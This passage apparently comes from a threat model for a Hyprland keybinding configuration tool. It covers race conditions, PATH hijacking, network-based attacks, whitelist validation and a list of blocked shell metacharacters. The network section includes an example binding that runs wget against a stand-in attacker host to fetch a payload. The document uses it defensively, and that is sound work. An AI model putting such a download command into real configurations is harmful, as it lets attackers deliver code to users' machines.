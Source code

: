 #### 2. [Time-of-Check to Time-of-Use (TOCTOU)](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) Race Conditions
**Scenario**: Malicious process modifies config file between validation and execution.
```
Thread 1: Validate config (PASS) → Write config
Thread 2: Modify file between validate and write
```
**Status**: Window of vulnerability exists (microseconds).
**Mitigation Strategy**: Atomic operations minimise window.
**Residual Risk**: Advanced local attackers with root access could exploit.

#### 3. Execution Environment Attacks
**Scenario**: Keybindings execute in user's full environment (PATH, env vars).
```bash
# Legitimate binding, but PATH contains malicious directory
bind = SUPER, K, exec, firefox
# Executes /malicious/path/firefox instead of /usr/bin/firefox
```
**Status**: Application cannot sandbox execution environment.
**Mitigation Strategy**: Validate dispatcher names, but not execution context.
**Residual Risk**: User's compromised environment affects all executed commands.

#### 4. Network-Based Attacks
**Scenario**: Valid commands that download malicious payloads.
```bash
bind = SUPER, K, exec, wget http://attacker.com/payload
```
**Status**: `wget`, `curl` are valid tools, often used legitimately.
**Mitigation Strategy**: Layer 2 flags network tools as suspicious.
**Residual Risk**: User can dismiss warnings.

---

## Security Features

### 1. Whitelist-Based Validation

**Philosophy**: Deny by default, allow explicitly.

**Allowed Dispatchers** (as of October 2025):
- Verified against official Hyprland documentation
- Total: 42 whitelisted dispatchers
- Examples: `exec`, `workspace`, `killactive`, `togglefloating`

**Maintenance**: Whitelist updated when Hyprland adds new dispatchers.

### 2. Shell Metacharacter Detection

**Blocked Characters**:
```
; | & $ ` ( ) { } [ ] < > \ " ' \n \r
```
